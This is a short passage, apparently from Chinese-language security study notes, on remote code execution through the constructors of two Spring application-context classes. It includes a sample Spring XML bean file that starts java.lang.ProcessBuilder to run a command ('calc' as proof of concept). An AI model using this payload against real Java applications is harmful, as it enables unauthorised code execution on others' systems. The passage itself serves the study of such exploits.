 接着调用构造函数或静态函数 `function.invoke(context, parameters);`![image-20230423091403475](../.gitbook/assets/image-20230423091403475.png)

## 构造器利用

Spring当中有两个类的构造函数远程加载配置，可以构成RCE

```xml
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>calc</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
